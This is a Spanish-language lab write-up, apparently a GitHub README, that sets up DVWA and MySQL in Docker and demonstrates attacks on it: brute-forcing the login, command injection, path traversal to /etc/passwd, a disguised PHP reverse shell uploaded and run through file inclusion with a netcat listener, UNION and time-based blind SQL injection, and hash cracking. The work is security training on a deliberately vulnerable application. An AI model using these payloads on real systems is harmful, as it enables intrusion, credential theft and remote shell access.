









# **Damn Vulnerable Web Application (DVWA) con MySQL en Docker**

Este proyecto despliega **DVWA** junto con **MySQL 5.7** en contenedores Docker, proporcionando un entorno seguro para practicar pruebas de seguridad web.

---

## **1. Instalación y Puesta en Marcha**

### **1.1 Descarga de Imágenes Docker**
Ejecutar los siguientes comandos para descargar las imágenes necesarias:
```bash
docker pull mysql:5.7
docker pull ghcr.io/digininja/dvwa:cc86a34
```

### **1.2 Configuración de MySQL**
Levantar un contenedor de MySQL con credenciales preconfiguradas:
```bash
docker run -d --name dvwa-mysql \
  -e MYSQL_ROOT_PASSWORD=root \
  -e MYSQL_USER=dvwa \
  -e MYSQL_PASSWORD=p@ssw0rd \
  -e MYSQL_DATABASE=dvwa \
  mysql:5.7
```

### **1.3 Levantar DVWA**
Iniciar el contenedor de DVWA y conectarlo con MySQL:
```bash
docker run -d --name dvwa --link dvwa-mysql:mysql -p 80:80 \
  -e DB_SERVER=mysql ghcr.io/digininja/dvwa:cc86a34
```

### **1.4 Acceso a la Aplicación**
Abrir un navegador y acceder a la URL:
```
http://localhost/login.php
```

### **1.5 Configuración Inicial**
1. Hacer clic en **"Create / Reset Database"** para inicializar la base de datos.
2. Iniciar sesión con las siguientes credenciales:
   - **Usuario:** `admin`
   - **Contraseña:** `password`

🚀 ¡DVWA está listo para realizar pruebas de seguridad! 🛡️

### **Captura de la Configuración**
A continuación, se muestra una imagen con la configuración y ejecución de los contenedores:


---

# **2. Fuerza Bruta en DVWA**

## **2.1 Descripción**
Se ha desarrollado un script en PHP, llamado **`dvwa_bruteforce.php`**, que automatiza un ataque de fuerza bruta contra la autenticación de DVWA en el nivel de seguridad **alto**.

## **2.2 Ubicación del Script**
El archivo se encuentra en: [assets/dvwa_bruteforce.php](assets/dvwa_bruteforce.php)


## **2.3 Instalación y Ejecución**
1. Asignar permisos de ejecución al script:
   ```bash
   chmod +x assets/dvwa_bruteforce.php
   ```
2. Ejecutar el ataque utilizando el diccionario `rockyou.txt`:
   ```bash
   php assets/dvwa_bruteforce.php rockyou.txt
   ```

## **2.4 Funcionamiento del Script**
✔ Se conecta con DVWA y extrae el **token CSRF** dinámicamente.
✔ Prueba múltiples combinaciones de credenciales utilizando la lista de contraseñas `rockyou.txt`.
✔ Detecta automáticamente la contraseña correcta y la muestra en pantalla.

## **2.5 Requisitos**
- **PHP instalado en el sistema**
- **DVWA en ejecución** con nivel de seguridad `high`
- **Archivo `rockyou.txt`** como diccionario de contraseñas

## **2.6 Capturas de Pantalla**
### **Cookies en el Navegador**


### **Archivos en el Directorio**


### **Ejecución del Script**


---

# **3. Inyección de Comandos en DVWA**

## **3.1 Descripción**
DVWA incluye una funcionalidad para hacer `ping` a dispositivos, pero la entrada del usuario se concatena directamente en el comando, permitiendo la ejecución arbitraria de comandos del sistema.

## **3.2 Explotación de la Vulnerabilidad**
Podemos ejecutar comandos arbitrarios usando `|` (pipe). Por ejemplo:
```bash
127.0.0.1 | ls
```
✅ **Salida esperada:**
```
index.php
config.php
README.md
```

🔹 **Este ataque funciona en todos los niveles de seguridad:** bajo, medio y alto.

## **3.3 Capturas de Pantalla**
### **Inyección de Comandos Exitosa**


### **Ruta de Ejecución en el Servidor**
📌 La ejecución del ataque nos ha permitido conocer la ruta exacta del script vulnerable en el servidor.


---

# **4. Path Traversal en DVWA**

## **4.1 Descripción**
En el nivel de seguridad **alto**, existe una restricción que exige que el nombre del archivo comience con `file`.

### **4.2 Bypass de Restricción**
Podemos eludir esta restricción modificando la URL en el navegador e ingresando el siguiente payload:
```
http://127.0.0.1/vulnerabilities/fi/?page=file/../../../../../../etc/passwd
```

Esto permite leer archivos sensibles del sistema a través de **Path Traversal**.

## **4.3 Captura de Ejecución**
La siguiente imagen muestra la explotación exitosa del ataque:


---
# **5. Carga de Archivos - DVWA**

## **5.1 Descripción**
DVWA en nivel de seguridad **alto** presenta restricciones para la subida de archivos maliciosos, como la validación del tipo MIME y la extensión. Sin embargo, podemos evadir estos controles utilizando técnicas como **doble extensión y manipulación de cabecera de archivos**.

## **5.2 Subida de Archivo Malicioso**
Para obtener una **shell inversa**, subimos un archivo PHP con una doble extensión (`.php.png`) y un encabezado falso `GIF98;` para que pase los filtros.

📌 **Archivo utilizado:** [assets/rev.php.png](assets/rev.php.png)

El archivo fue subido exitosamente a través de la vulnerabilidad de **File Upload** en DVWA.

### **Captura de la Subida**


## **5.3 Ejecución a Través de File Inclusion**
Como el archivo `.php.png` no puede ejecutarse directamente, utilizamos **File Inclusion** para forzar su ejecución:
```
http://192.168.1.158/vulnerabilities/fi/?page=file/../../../hackable/uploads/rev.php.png
```

### **Captura de la Inclusión del Archivo**


## **5.4 Conexión con Netcat**
Desde Kali Linux, se configuró un **oyente Netcat** con:
```bash
nc -lvnp 4444
```
Al ejecutar el archivo, se obtuvo acceso al servidor con usuario `www-data`.

### **Captura de la Shell Inversa**


---

# **6. Inyección SQL en DVWA**

## **6.1 Descripción**
DVWA en nivel de seguridad **alto** sigue siendo vulnerable a **inyección SQL**, aunque con más restricciones. Aprovecharemos esta vulnerabilidad para extraer usuarios y contraseñas almacenadas en la base de datos.

## **6.2 Explotación de la Vulnerabilidad**
En la sección de **SQL Injection**, ingresamos la siguiente carga útil en el campo de **User ID**:
```
' UNION SELECT user, password FROM users#
```

### **Explicación de la Carga Útil**
- `UNION SELECT` → Nos permite unir nuestra consulta con otra para obtener información adicional.
- `user, password FROM users` → Extrae los nombres de usuario y sus hashes de contraseña de la tabla `users`.
- `#` → Comenta el resto de la consulta original para evitar errores.

### **Captura de Ejecución**
La siguiente imagen muestra los resultados obtenidos tras la ejecución de la inyección SQL:


## **6.3 Descifrado de Contraseñas**
Las contraseñas obtenidas están almacenadas en formato hash (MD5). Para descifrarlas, podemos utilizar herramientas en línea o locales.

### **CrackStation (Online)**
1. Acceder a [https://crackstation.net/](https://crackstation.net/).
2. Ingresar los hashes obtenidos y verificar si están en su base de datos.

### **Captura de Descifrado**
La siguiente imagen muestra el descifrado exitoso del hash `5f4dcc3b5aa765d61d8327deb882cf99`, revelando que la contraseña es `password`:


## **6.4 Prevención**
Para evitar este tipo de ataques, se recomienda:
✔ **Usar consultas preparadas (Prepared Statements)**.
✔ **No exponer información sensible en los errores de la base de datos**.
✔ **Implementar validación estricta de entrada de datos**.
✔ **Utilizar métodos de hashing seguros y con sal (bcrypt, Argon2)**.

---

# **7. Inyección SQL Ciega (Blind SQL Injection) en DVWA**

## **7.1 Descripción**
DVWA en nivel de seguridad **alto** sigue siendo vulnerable a **inyección SQL ciega**, aunque implementa protecciones más estrictas. Se ha aprovechado esta vulnerabilidad para extraer la versión del motor de base de datos mediante fuerza bruta carácter por carácter.

---

## **7.2 Explotación de la Vulnerabilidad**

En la sección de **SQL Injection (Blind)**, se configuró manualmente una cookie vulnerable con la siguiente carga útil:

```
1' and sleep(5)#
```

✅ Al establecer esta cookie, la respuesta del servidor tarda aproximadamente **5 segundos**, confirmando que la inyección es posible.

---

## **7.3 Script Utilizado**

Para automatizar la extracción de la versión de la base de datos, se desarrolló un script en Python llamado **`blind_sqli_high.py`**, ubicado en la carpeta `assets/`.

El contenido del script se encuentra aquí --> [assets/blind_sqli_high.py](assets/blind_sqli_high.py) 

---

## **7.4 Resultado Obtenido**

Tras ejecutar el script, se logró detectar la longitud y extraer completamente la versión de la base de datos:

```
[*] Detectando longitud de la versión...
✅ Longitud detectada: 6
[*] Extrayendo versión de la base de datos...
[1] 5 [2] . [3] 7 [4] . [5] 4 [6] 4
✅ Versión extraída: 5.7.44
```

---

## **7.5 Capturas de Pantalla**

### **Inyección de Payload en Cookie**
📸 

### **Ejecución del Script y Extracción Exitosa**
📸 

---
